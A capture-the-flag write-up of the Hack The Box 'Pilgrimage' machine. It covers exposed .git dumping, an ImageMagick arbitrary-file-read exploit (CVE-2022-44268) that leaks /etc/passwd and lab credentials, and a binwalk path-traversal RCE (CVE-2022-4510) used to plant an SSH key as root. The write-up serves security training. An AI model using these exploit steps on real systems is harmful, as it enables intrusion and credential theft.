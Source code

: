 ```yaml
---
author: Supaaasuge
title: Pilgrimmage - HTB Writeup
date: 2024-05-04
Lastmod: 2024-05-04
description: "Writeup for the Hack The Box room Pilgrimmage"
categories:
  - Hack The Box
tags:
  - CVE-2022-44268
  - CVE-2022-4510
---
```

# Pilgrimage - HTB Writeup
IP=`10.10.11.219`

## Enumeration
**nmap**
```bash
export IP=10.10.11.219
nmap -p- --min-rate 10000 -Pn $IP
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
---
sudo nmap -p22,80 -sCVT -A -Pn $IP
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.93 seconds
```

Domain: `pilgrimage.htb`
Nginx version: `1.18.0`
git found: `10.10.11.219:80/.git` - We can use the tool `git-dumper` that can be installed using `pipx install git-dumper` to extract the content's of the git repo present on the machine. 

The tools: [Git-Money](https://github.com/dnoiz1/git-money), [DVCS-Pillage](https://github.com/evilpacket/DVCS-Pillage) and [GitTools](https://github.com/internetwache/GitTools) can be used to retrieve the content of a git directory. [hacktrickz - git](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/git)
The tool [https://github.com/cve-search/git-vuln-finder](https://github.com/cve-search/git-vuln-finder) can be used to search for CVEs and security vulnerability messages inside commits messages.

The tool [https://github.com/michenriksen/gitrob](https://github.com/michenriksen/gitrob) search for sensitive data in the repositories of an organisations and its employees.

After downloading the repo, there is a lot to go through; including the source code. Also within the repository is a copy of `magick` (ImageMagick).

At this point, I decided to go and check the functionality of the site first, to which I found a file upload on `index.php`. This can be confirmed in the source code. There is also a login/register functionality. After testing the upload function and viewing the source code, upon image upload; the image was being shrinked into a smalled image, and the original one deleted/replaced with the new image. With  the copy of `magick` in the git repo, i went ahead and checked the version number so I could look for any known exploits. Version `7.1.0-49`.

Lookup term `ImageMagick 7.1.0-49 exploit`. From my research I found:
- [CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268) - Information disclosure vulnerability through arbitrary file read. When it parses a PNG image for resizing, the resulting image could have embedded the content of an arbitrary file.
- [PoC](https://github.com/entr0pie/CVE-2022-44268)
To exploit Imagemagick, generate a malicious png:

```shell
python3 CVE-2022-44268.py /etc/passwd  # Create output.png
```

Then, run a resize operation with convert:

```shell
convert output.png -resize 50% leak.png
```

Finally, inspect the leak image and convert the `Raw profile` to hex:

```shell
identify -verbose leak.png
# ...
Raw profile type:

    2367
726f6f743a783a303a303a726f6f743a2f726f6f743a2f6269 [...]
```

- https://github.com/voidz0r/CVE-2022-44268
- [Exploit-db - CVE-2022-44268](https://www.exploit-db.com/exploits/51261)
- Clone the project
`git clone https://github.com/voidz0r/CVE-2022-44268`
- Run the project
`cargo run "/etc/passwd"`
- Use the file with ImageMagick
`convert image.png -resize 50% output.png`
- Analyze the resized image
`identify -verbose output.png`
- Convert hex to str
```bash
python3 -c 'print(bytes.fromhex("23202f6574632f686f7374730a3132372e302e302e31096c6f63616c686f73740a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3109096c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a3109096970362d616c6c6e6f6465730a666630323a3a3209096970362d616c6c726f75746572730a6475636e740a"))
```

After running `cargo run /etc/passwd` and uploading the photo, then downloading the resized image and running `identify -verbose <img>`. It will output a large string of hex. After using python to convert this hex string to bytes, we can see that it is a success:

```bash
python3 u.py                    
b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:109::/nonexistent:/usr/sbin/nologin\nsystemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nemily:x:1000:1000:emily,,,:/home/emily:/bin/bash\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nsshd:x:105:65534::/run/sshd:/usr/sbin/nologin\n_laurel:x:998:998::/var/log/laurel:/bin/false\n'
```

Users: `laurel`

From the source code, in `login.php` there is a function that connect's to an sqlite database. Let's try to grab this file and inspect the database.
```php
[SNIP]
$db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));

  if($stmt->fetchAll()) {
    $_SESSION['user'] = $username;
    header("Location: /dashboard.php");
  }
  else {
    header("Location: /login.php?message=Login failed&status=fail");
  }
  [SNIP]
```

After downloading the image and extracting the data using `identify -verbose <img>`. I used python to write the binary data to a file using `open("output.db", "wb").write(bytes.fromhex(<hex_str>))` then using `sqlite` to inspect the db....

```bash
sqlite3 pilgrimage.db            
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> SHOW DATABASES;
Parse error: near "SHOW": syntax error
  SHOW DATABASES;
  ^--- error here
sqlite> .tables
images  users 
sqlite> SELECT * FROM users;
emily|abigchonkyboi123
user|user
sqlite> SELECT * FROM images;
http://pilgrimage.htb/shrunk/662c0c41a8661.png|image.png|user
```
Creds Found: `emily|abigchonkyboi123`

## Privilege escalation
After a bit of enumeration, after running `ps aux | grep root` to check for any processes running under the `root` user I was able to find the script `/usr/sbin/malwarescan.sh`
```bash
!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

I initially though I code get code execution by manipulating the file names with `$()` and \`\` However no luck...

I then decided to check the version's of the tools being used.

Running `binwalk -h` will output the `binwalk` version. 

```bash
binwalk -h

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk
```

after giving this a quick google:
`Binwalk v2.3.2 exploit` I found the following:
[CVE-2022-4510](https://github.com/adhikara13/CVE-2022-4510-WalkingPath)
[exploit-db PoC](https://www.exploit-db.com/exploits/51249)
[Binwalk RCE - Packetstirnsecurity](https://packetstormsecurity.com/files/171724/Binwalk-2.3.2-Remote-Command-Execution.html)
A path traversal vulnerability was identified in ReFirm Labs binwalk from version 2.1.2b through 2.3.3 included. By crafting a malicious PFS filesystem file, an attacker can get binwalk's PFS extractor to extract files at arbitrary locations when binwalk is run in extraction mode (-e option). Remote code execution can be achieved by building a PFS filesystem that, upon extraction, would extract a malicious binwalk module into the folder .config/binwalk/plugins. This vulnerability is associated with program files src/binwalk/plugins/unpfs.py. This issue affects binwalk from 2.1.2b through 2.3.3 included.
- [CVE Explaination](https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/)

After downloading the PoC from github, I then generated a `ed25519` SSH key pair using the command:
`ssh-keygen -t ed25519 -N "" -f ed25519_pilgrimmage`

Then, using this key + the exploit; I was able to gain code execution and overwrite the `authorized_keys` file using the PoC. From here, i was able to easily SSH into the machine as the `root` user. 


